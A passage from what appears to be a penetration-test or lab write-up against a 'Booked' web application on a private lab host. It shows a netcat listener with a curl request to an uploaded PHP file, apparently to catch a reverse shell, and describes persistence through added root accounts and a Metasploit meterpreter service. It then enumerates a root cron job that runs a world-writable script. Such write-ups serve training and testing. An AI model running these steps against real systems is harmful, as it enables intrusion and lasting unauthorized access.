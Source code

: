 ```bash
sudo nc -nvlp 8003
curl http://192.168.51.64:8003/booked/Web/custom-favicon.php
```

## Maintaining Access
Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable. The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again. Many exploits may only be exploitable once and we may never be able to get back into a system after we have already per-formed the exploit. Victor added administrator and root level accounts on all systems compromised. In addition to the administrative/root access, a Metasploit meterpreter service was installed on the machine to en-sure that additional access could be established.

```bash
cat /etc/crontab

# output
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/3 *   * * *   root    python /var/www/html/booked/cleanup.py
#
```

```bash
ls -al /var/www/html/booked/

# output
total 432
drwxrwxrwx 17 www-data www-data   4096 Jul 11 18:08 .
drwxr-xr-x  3 root     root       4096 Apr 28  2020 ..
-rw-rw-rw-  1 www-data www-data 260290 Feb  5  2019 cacert.pem
-rwxrwxrwx  1 victor   root        315 Jul 11 18:08 cleanup.py
drwxrwxrwx  2 www-data www-data   4096 Apr 28  2020 config
drwxrwxrwx  3 www-data www-data   4096 Feb  5  2019 Controls
drwxrwxrwx  3 www-data www-data   4096 Feb  5  2019 database_schema
-rw-rw-rw-  1 www-data www-data   4187 Feb  5  2019 development-guide.txt
drwxrwxrwx  5 www-data www-data   4096 Feb  5  2019 Domain
-rw-rw-rw-  1 www-data www-data   3509 Feb  5  2019 favicon.png
-rw-rw-rw-  1 www-data www-data    476 Feb  5  2019 .htaccess
-rw-rw-rw-  1 www-data www-data   1175 Feb  5  2019 index.php
drwxrwxrwx  2 www-data www-data   4096 Feb  5  2019 Jobs
drwxrwxrwx 28 www-data www-data   4096 Feb  5  2019 lang
```